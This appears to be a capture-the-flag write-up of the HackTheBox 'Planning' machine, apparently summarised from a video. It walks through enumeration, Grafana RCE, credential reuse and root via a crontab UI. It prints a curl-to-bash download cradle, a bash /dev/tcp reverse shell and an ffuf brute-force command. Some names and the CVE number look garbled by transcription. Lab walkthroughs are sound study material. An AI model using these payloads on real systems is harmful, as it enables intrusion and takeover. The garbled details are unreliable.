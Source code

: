 ## Planning HackTheBox: Detailed Briefing

### I. Initial Enumeration and Web Reconnaissance

The initial phase of the "Planning" box begins with standard reconnaissance, including Nmap and web enumeration.

- **Nmap Scan:** An Nmap scan (nmap -sc -sv -vvv -oA planning 10.10.11.68) reveals two open ports:
- **Port 22 (SSH):** Running OpenSSH on an Ubuntu server. Nuclei later confirms that SSH allows both SSH keys and password authentication, which is "good to know if we have a password we may want to try it because it is accepting password authentication."
- **Port 80 (HTTP):** Running Nginx on Ubuntu, directing to planning.htb. This domain is added to the /etc/hosts file.
- **Website Analysis (planning.htb):**
- The website is identified as a PHP application, hinted by .phps files.
- Initial attempts to find vulnerabilities on the homepage (e.g., SQL injection in search fields) yield no results.
- Nuclei scan on planning.htb primarily identifies missing security headers (e.g., X-Frame-Options, Strict-Transport-Security, Content-Security-Policy). While not direct vulnerabilities, these headers are "a defense in depth methodology" and their absence can "increase the severity" of other found vulnerabilities.
- **Virtual Host Enumeration:**
- An initial GoBuster virtual host scan using a common wordlist fails to identify a subdomain. The speaker notes, "I must have done something wrong... I think GoBuster changed how it normally works i swear in previous boxes if um it would just append the domain I put in the URL but it doesn't look like it's doing that right."
- The issue is resolved by using the append-domain flag with GoBuster, leading to the discovery of grafana.planning.htb. The speaker highlights this as a benefit of CTFs: "doing CTFs like hack the box you know things are vulnerable i'm sure if I was doing just pen testing fulltime still um this change would happen and I would never really uh find out i'd go through and miss a few virtual hosts just because um I don't know something is supposed to be vulnerable and I don't test my tool sets."

### II. Grafana Exploitation and Initial Compromise

The discovery of the Grafana subdomain leads to the first major vulnerability and initial access.

- **Grafana Access:** Navigating to grafana.planning.htb reveals a Grafana instance, version 11.0.0. The login page provides default credentials: admin and a password. Logging in successfully demonstrates the access.
- **Vulnerability Identification (CVE-2024-2342):**
- A search on CVE Details for Grafana reveals a critical vulnerability, CVE-2024-2342, affecting Grafana version 11.0.0, related to "SQL expressions experimental feature of Graphfana allows evaluation of duct DB queries."
- GitHub is used to find a proof-of-concept (PoC) exploit for this CVE, which indicates "PC demonstrates SQL read and um code execution can only happen on 11 but it looks like future versions may have a way to do file disclosure." Since the target is version 11, remote code execution (RCE) is possible.
- **Remote Code Execution:**
- The PoC script is cloned and set up in a Python virtual environment.
- Initial attempts to directly inject a reverse shell payload as a command argument prove "a little bit wonky" due to special characters.
- A more robust method is employed: hosting a shell.sh script on a local HTTP server and using curl to fetch and execute it on the target: user bin curl http://10.10.14.8:8000/shell.sh | bash. This "web cradle" approach is preferred for troubleshooting, as "if you get a hit from the curl to your web server you know the server can reach out to the internet and things are working fine right and then if it fails to give you the shell then you know something's blocking it."
- A reverse shell is successfully obtained, confirming initial access.

### III. Post-Exploitation and Lateral Movement (Container to Host)

Upon gaining a shell, the focus shifts to understanding the environment and escalating privileges.

- **Container Environment:** The hostname suggests the shell is within a Docker container.
- **Environment Variable Discovery:** An env command reveals a password and a username (enzo) in the environment variables: riot tech and something.
- **SSH to Host:** The discovered password is used to SSH into the host machine as the enzo user (ssh enzo@planning.htb). This successfully moves the attacker from the container to the host.
- **User Flag:** The user.txt flag is found, indicating successful user-level compromise.

### IV. Privilege Escalation - Cron Tabs UI

The final phase involves identifying a path to root on the host machine.

- **Pseudo Permissions:** Checking sudo -l for the enzo user shows no special sudo privileges.
- **Hidden Processes (Hide PID):** The ps faux command and inspection of /etc/fstab reveal that proc system is mounted with hide p equals 2 which hides processes um running as other users. This limitation makes it difficult to directly identify processes listening on open ports.
- **Port Enumeration (Host):**Common ports 80 and 22 are expected.
- grep -R 8000 /etc and grep -R 3000 /etc are used to identify services listening on less common ports.
- Port 3000 is identified as Grafana, as it redirects to /login.
- Port 8000 returns "unauthorized" and "express," indicating another web server.
- **MySQL Credentials:** Inside /var/www/html/web/index.php, MySQL credentials (root and a password) are found. Accessing the MySQL database (mysql -u root -p) reveals an empty educate database, suggesting it's not directly useful.
- **Cron Tabs Discovery:**The /opt directory contains crontabs/crontab.db, which upon catting and jq .ing, reveals JSON data describing two cron jobs: cleanup.sh (running every minute) and a docka cron (running daily).
- Searching /etc/systemd reveals a crontab UI service.
- Inspecting the crontab UI service configuration (likely via GitHub or local files) reveals it's listening on port 8000 and has a hardcoded password: password S0 riot 3C.
- **Port Forwarding and Cron Tabs UI Access:**An SSH port forward is established to access the crontab UI listening on localhost:8000: ssh -L 8001:127.0.0.1:8000 enzo@planning.htb.
- Accessing 127.0.0.1:8001 in the browser reveals a login page.
- Brute-forcing common usernames (admin, enzo, root) with the discovered password S0 riot 3C successfully grants access to the crontab UI.
- **Root Shell:**Within the crontab UI, a new cron tab is created with a malicious bash reverse shell payload: bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'.
- Running this cron job immediately executes the reverse shell, granting a root shell.
- The root.txt flag is then retrieved.

### V. Advanced Technique: Ffuf Encoders for Brute-forcing

The briefing concludes with an optional, advanced demonstration of using ffuf with encoders for brute-forcing HTTP Basic Authentication, even though hydra would be simpler.

- **Scenario:** Brute-forcing the crontab UI login if the password was unknown.
- **HTTP Basic Authentication:** The login uses HTTP Basic authentication, where the username:password pair is Base64 encoded.
- **Ffuf Configuration:**A custom wordlist (users.txt) is created.
- sed is used to append the known password (S0 riot 3C) to each username in the wordlist, creating username:password pairs.
- ffuf is then used with the enc encoder to Base64 encode the FUZZ payload before sending the request: ffuf -request login.request -request-proto http -w users.txt:FUZZ -enc FUZZ:b64 -mc all.
- Filtering for a 200 status code (-fc 401) reveals the correct username that resulted in a successful login. This demonstrates how "fuff has encoders so we could like URL encode something we can base 64 encode."